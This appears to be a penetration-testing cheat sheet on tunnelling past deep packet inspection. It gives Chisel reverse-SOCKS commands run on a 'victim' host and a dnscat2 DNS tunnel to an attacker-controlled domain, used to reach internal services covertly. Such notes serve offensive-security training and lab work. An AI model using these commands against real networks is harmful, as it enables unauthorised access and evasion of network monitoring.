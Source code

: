 # Tunneling Through Deep Packet Inspection

## Chisel

Run a Chisel server on Kali:
```
chiselkali$ chisel server --port $KaliPort --reverse
```
then monitor the traffic in case it doesn't work:
```
chiselkali$ sudo tcpdump -nvvvXi $SomeInterface tcp port $KaliPort
```
Send the Chiser client to the target and execute it:
```
victim$ chisel client $IpChiselKali:$KaliPort R:socks > /dev/null 2>&1 &
```
Check the opened port on Kali to reuse it:
```
chiselkali$ ss -lntpu # check port for the Socks proxy
```
and use the port to send Socks command (`nc` doesn't support proxying, instead run `ncat`):
```
kali$ sudo apt-get install ncat
kali$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:$PortCheckedWithSs %h %p' hackeduser@$IpDbIn
```

## DNS

### Dnsmasq settings and Nslookup check

Run Dnsmasq and load a conf file:
```
sudo dnsmasq -C dnsmasq.conf -d
```
Listen on the interface to check:
```
sudo tcpdump -i ensXpY udp port 53
```
and test the name resolution on another station:
```
resolvectl status # check the DNS server
nslookup somesubzone.mydnsserver.com $victiminternaldns
```

### Dnscat2

Run a DNS server on Kali:
```
dnskali$ dnscat2-server mytld.com
```
and start `dnscat` on the target:
```
victim$ ./dnscat mytld.com
```
In the Dnscat2 shell, open a port in the target:
```
dnscat2> windows # with an 's'
dnscat2> window -i 1 # without 's'
command> ?
command> listen 127.0.0.1:$AttackerPort $IpDeepIn:$PortService
```
and connect from Kali:
```
dnskali$ someservice localhost:$PortService
```
